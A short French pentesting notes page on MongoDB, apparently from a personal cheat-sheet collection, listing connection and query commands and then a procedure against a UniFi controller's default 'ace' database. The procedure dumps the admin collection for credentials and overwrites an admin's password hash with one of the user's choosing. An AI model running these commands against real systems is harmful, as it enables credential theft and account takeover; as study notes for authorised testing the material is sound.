 <sub>[Procédure serveur](server_procedure.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Cryptage](cryptage.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Outils](tools.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Sites utiles](useful_website.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Lexique](lexique.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Index](index.md)</sub>
<sub>[Retour](web_server.md)</sub>
#Mongo DB

**Présentation :** Base de données NO SQL

**CMD :** mongo mongodb://***RHOST:*RPORT*

**Help :**
- *show dbs;* : avoir la liste des bdd
- *use **BDD*** : utiliser la bdd
- *show collections;* : voir les tables
- db.**TABLE**.find().pretty() : contenu de la table en json dans l output

**Procédure :**
- on cherche si présent : ps aux | grep mongo
- Tester car peut donnerr le mdp admin : *mongo --port **PORT_MONGO** ace --eval "db.admin.find().forEach(printjson);* 
  - Si réponse : *UniFi Default Database datamase name par défaut est "ace"*
    -  *mongo --port **PORT_MONGO** ace --eval "db.admin.find().forEach(printjson); --eval* : pour passer du scipt js
 -  Si on trouve un utilisateur on peut modifier son mdp en en créant un en SHA512:
    -  *mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("azeazeazeaz")},{$set:{"**USERNAME**":"**MDP_SHA_512**"}})'*
